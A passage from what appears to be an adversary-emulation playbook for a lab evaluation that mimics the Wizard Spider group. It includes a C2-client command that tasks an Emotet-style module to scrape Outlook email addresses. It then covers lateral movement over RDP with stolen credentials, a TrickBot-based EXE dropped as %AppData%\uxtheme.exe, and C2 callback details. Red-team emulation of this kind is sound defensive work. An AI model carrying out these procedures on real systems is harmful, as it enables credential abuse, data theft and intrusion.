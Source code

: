 [_popen info, because I've never heard of it either](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/popen-wpopen?view=msvc-160)


Scrape email addresses from inbox.

```bash
# Emotet has been observed leveraging a module that can scrape email addresses from Outlook.[3][4]

./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L99)

:warning: Sign out of RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

<br>

### :microscope: Cited Intelligence
* https://unit42.paloaltonetworks.com/emotet-command-and-control/

* https://www.cisecurity.org/white-papers/ms-isac-security-primer-emotet/

* https://securityintelligence.com/new-banking-trojan-icedid-discovered-by-ibm-x-force-research/

* https://global.ahnlab.com/global/upload/download/asecreport/ASEC%20REPORT_vol.88_ENG.pdf

<br>

## Step 4 - Move Laterally Deploy TrickBot

:microphone: `Voice Track:`

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot. 

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

```
Compromised user info:

User:	bill@oz.local

System: 10.0.0.8 / toto

File Write (Tribot EXE): %AppData%\uxtheme.exe

C2:	192.168.0.4:447 HTTP - no encryption or obfuscation
```

---

### :biohazard: Procedures

Change your RDP tab name to "RDP into Toto"
